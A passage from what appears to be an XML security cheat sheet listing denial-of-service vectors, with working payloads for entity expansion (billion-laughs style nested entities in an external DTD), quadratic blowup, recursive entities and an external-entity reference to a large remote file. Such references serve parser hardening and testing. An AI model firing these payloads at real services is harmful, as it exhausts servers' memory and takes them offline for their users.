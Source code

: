 File stored on _http://publicServer.com/dos.dtd_  
  
```xml
<!ENTITY % a0 "dos" >  
<!ENTITY % a1 "%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;">  
<!ENTITY % a2 "%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;">  
<!ENTITY % a3 "%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;">  
<!ENTITY % a4 "%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;">  
<!ENTITY g  "%a4;" >
```
  

### Quadratic Blowup Attack

```xml
<!DOCTYPE data [  
<!ENTITY a0 "dosdosdosdosdosdos...dos">  
]>  
<data>&a0;&a0;...&a0;</data>
```
  
[Source](https://pypi.python.org/pypi/defusedxml/)  
  

### Recursive General Entities

This vector is not well-formed by [[WFC: No Recursion](https://www.w3.org/TR/xml11/#norecursion)].  
  
```xml
<!DOCTYPE data [  
<!ENTITY a "a&b;" >  
<!ENTITY b "&a;" >  
]>  
<data>&a;</data>
```
  

### External General Entities (Steuck, 2002)

The idea of this attack is to declare an external general entity and reference a large file on a network resource or locally (e.g. _C:/pagefile.sys or /dev/random_).  
However, conducting DoS attacks in such a manner is only applicable by making the parser process a **large XML document.**  
  
```xml
<?xml version='1.0'?>  
<!DOCTYPE data [  
<!ENTITY dos SYSTEM "file:///publicServer.com/largeFile.xml" >  
]>  
<data>&dos;</data>
```

[https://www.blogger.com/goog_539728379](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

###  Parameter Laughs (Sebastian Pipping, 2021)
